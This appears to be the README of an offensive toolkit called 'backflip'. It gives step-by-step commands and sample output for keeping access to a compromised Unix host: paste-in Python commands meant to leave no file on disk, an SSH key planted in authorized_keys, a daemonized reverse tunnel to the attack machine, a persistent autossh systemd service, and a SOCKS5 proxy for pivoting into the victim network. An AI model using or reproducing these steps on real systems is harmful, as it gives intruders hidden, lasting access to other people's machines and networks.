 # WTF

These are backflip scripts used to create ssh backflips. This allows
for a connection outbound from a compromised unix system to an attack
machine that provides a reverse tunnel back into the attack machine's
ssh server. It deploys keys to make this all possible.

# Things to Take Note of
* Port numbers for both reverse port forwards and socks proxies will
  need to be managed out of band. Implement a process and use it.
* You are running an additional ssh server that your victims ssh
  to. This can be abused by somebody who has control of the victim
  machine. While shell access is disabled, and only reverse forwarding
  will work, one should be aware of this caveat.


# Components
The structure here is a little confusing at first. Because we don't
want to leave a script file on disk, we give cut-n-paste commands that
are of the form `echo xxx|python`. The cut-n-paste command is
generated from the scripts that are indirectly run. This is important
for the operator to understand what these scripts do on target, but
the the scripts the operator directly uses are `make_backflip.py` and
`install_proxy.py`

## Components Directly Run

### `make_backflip.py`
runs on the attack machine that gives the cut-n-paste command to
run on victim

### `install_proxy.py`
runs on attack machine and installs and starts a socks proxy into victim network

## Components Indirectly Run

### `implant.py`
embedded in `install_implant.py` that daemonizes and makes ssh
connections. Note that the current implementation uses
`subprocess.Popen` with `shell=True`, which will cause an `execve`
with `sh -c` to appear in logs.

### `install_implant.py`
template of script that will be encoded and outputed as the
cut-n-paste command by `make_backflip.py`

# How to Setup a Backflip

In our examples, our victim is 10.0.0.1 and our proxy01 external IP is
at 10.50.0.1. We setup our reverse port-forwards are on ports 4000
onwards and our socks proxies are on ports 5000 onwards

1. Get a shell on victim host

1. run `make_backflip.py` on the attack host

	The invocation is `make_backflip.py <user> <victim-ip> <attacker-ip> <reverse listen port>`.
	Assuming the victim username is ubuntu, attack and victim ip given
	above, and listen port 4000:

		sudo ./make_backflip.py ubuntu 10.0.0.1 10.50.0.1 4000

	This will make port 4000 on proxy01 with a remote connection to
	10.0.0.1 on 22 when the command that is outputed is run on the
	victim. This will also create a keypair on the attack machine in
	`/opt/backflip/keys` with the format `<username>-<victim>-<attack>`.
	Note that you will need to allocate a new port with each blackflip
	created.

1. run the command that `make_backflip.py` outputs on the victim

   You should see output like:

		[+] keypath: /home/ubuntu/.ssh/id_rsab
		[+] wrote private key: /home/ubuntu/.ssh/id_rsab
		[+] wrote public key: /home/ubuntu/.ssh/id_rsab.pub
		[+] wrote to ~/.ssh/authorized_keys
		[+] started daemonized tunnel
		[*] waiting one minute for tunnel to come up...
		[+] tunnel running

1. run `install_proxy.py`

	`install_proxy.py` will create a systemd service to initiate the ssh
	connection to the victim and reverse port-forward a connection to
	their ssh daemon on the attack system. Additionally, it will setup a
	SOCKS5 proxy listening on a port you specify. As above, it is
	important to note which SOCKS port you are using and each backflip
	will require a unique one.

	In this example, we setup a persistant ssh connection with reverse
	forward as well as a socks proxy on port 5000:

		sudo ./install_proxy.py 4000 5000 /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1
		contents:
		[Unit]
		Description=ssh backflip to 4000
		After=network.target auditd.service

		[Service]
		ExecStart=/usr/bin/autossh -oServerAliveInterval=30 -oServerAliveCountMax=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no -oBatchMode=yes -n -N -D :5000 -i /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 -p4000 ubuntu@localhost

		[Install]
		WantedBy=multi-user.target

		Created symlink /etc/systemd/system/multi-user.target.wants/backflip-4000-5000.service → /etc/systemd/system/backflip-4000-5000.service.

	You can see that the proxy and ssh backflip are up:
	
		$ sudo netstat -lntp | grep -E "4000|5000"
		tcp        0      0 0.0.0.0:4000            0.0.0.0:*               LISTEN      20612/sshd: flip
		tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      20693/ssh
		tcp6       0      0 :::4000                 :::*                    LISTEN      20612/sshd: flip
		tcp6       0      0 :::5000                 :::*                    LISTEN      20693/ssh

	Notice that ssh is listening on 0.0.0.0, meaning that these services
	are available throughout the subnet.

# How to Use a Backflip

There are two primary ways to use a backflip: shell access and proxy access.

## Get a Shell

`/opt/backflips/keys` contains the necessary  ssh keypairs to ssh into
the victim machine. However, the permissions on the directory are such
that a normal user cannot use them. Each key to be used must be copied
to your home directory with permissions and ownership as SSH
expects. In our example:
```
sudo cp /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 ~/.ssh/
sudo chown $UID:$(id -g) ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
chmod 600 ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
```

Note, the user will be the same user as used above to setup the
backflip.

The following will reward you with a shell on the victim:
```
ssh -i ~/.ssh/ubuntu-10.0.0.1-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```

## Use a SOCKS5 Proxy

In our example above, there is a SOCKS5 proxy running on
port 5000. The most practical way to use it is with a browser plugin
such as foxyproxy or switchyomega. However, it is also available for
command line tools with the help of a proxy LD_PRELOAD library such as
`proxychains` or `tsocks`.

For example, a `proxychains.conf` in the current working directory
with contents as such:

	strict_chain
	# Quiet mode (no output from library)
	#quiet_mode
	proxy_dns 

	# Some timeouts in milliseconds
	tcp_read_time_out 15000
	tcp_connect_time_out 8000

	[ProxyList]
	socks5  127.0.0.1 5000

We can verify that our SOCKS proxy works with curl as we see our
victim IP instead of our attack IP:

```
$ proxychains curl ifconfig.me; echo
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| ifconfig.me 
|S-chain|-<>-127.0.0.1:5000-<><>-4.2.2.2:53-<><>-OK
|DNS-response| ifconfig.me is 216.239.32.21
|S-chain|-<>-127.0.0.1:5000-<><>-216.239.32.21:80-<><>-OK
10.0.0.1
```
